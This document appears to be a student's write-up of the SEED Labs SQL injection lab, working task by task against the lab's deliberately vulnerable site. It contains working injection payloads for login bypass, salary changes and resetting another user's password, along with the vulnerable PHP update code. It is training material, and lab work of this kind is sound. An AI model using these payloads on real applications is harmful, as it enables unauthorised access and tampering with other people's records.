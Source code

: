 # SQL-Injection-Lab-Attack
SQL-INJECTION

Title	Author	Date
Seed Lab SQL Injection Attack	Warda Salamat	28-10-2021

Task 1
Login MYSQL:
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
Use Such a SQL Query:
 select * from credential where Name = 'Alice';
Task 2
Task 2.1
•	USERNAME: "Admin' #"
•	PASSWORD: "***" whatever the password was
It will result in a SQL Query as:
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='***'
Then statement after # will bi regarded as comments. So we can login in as Admin.

 


Task 2.2

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'

It will return a bunch of htmlcode. When exporting outputs to file by > temp.htmland open it

 

Task 2.3
We neeed to delete such a statement to append a row to current database:
DELETE credential where name='ted';

So constructed:
•	USERNAME: " '1=1; DELETE credential where name='ted';#"
•	PASSWORD: " " (Remain Blank)
It fails and alerts with a syntax error:

 

Because in PHP's mysqli extension, which invokes mysqli::query API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

Task 3
It's hard to find the navigation buttons on this website
(www.SeedLabSQLInjection.com).
In order to edit the profile, please log in and then jump to the link address:
http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by Hand.

Task 3.1
Log in with Alice's username and password, enter
http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
Modify Phone Number as ', Salary=500000 and save

 

Task 3.2
Log in with username Boby' # and arbitrary password, open his profile edit page.
Fill in with:
Phone Number: ', Salary=1
And keep other properties unchanged. Submit the modification.
Now, you can see:
Screen shoot is in SQL Injection Folder
Log-in as Alice
Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.
We should change the Phone Number as
', Salary=1 where name='Boby' #


 

Task 3.3
Of course, the simplest approach is to log-in as Boby like Task 3.2 and change the password.
If we must do all things and keep log-in with Alice's own account. We might face such an issue:
According to code below in unsafe_edit_backend.php, if Password is to be updated, the session's pwd will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.
$conn = getDB();
// Don't do this, this is not safe against SQL injection attack
$sql="";
if($input_pwd!=''){
// In case password field is not empty.
$hashed_ = sha1($input_pwd);
//Update the password stored in the session.
$_SESSION['pwd']=$hashed_pwd;
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
}else{
// if passowrd field is empty.
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
}
$conn->query($sql);
$conn->close();
header("Location: unsafe_home.php");
exit();
We should do all things in Phone Number field.
Assume we want to change Boby's password as tedwashere. First, we should get SHA1 value of our new password via some online tool as
1b3263246794fe4094be7ae99e21b34454d9676f
Then construct Phone Number as:
', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
and save. Now, the change works. You can log in with username Boby and password tedwashere.
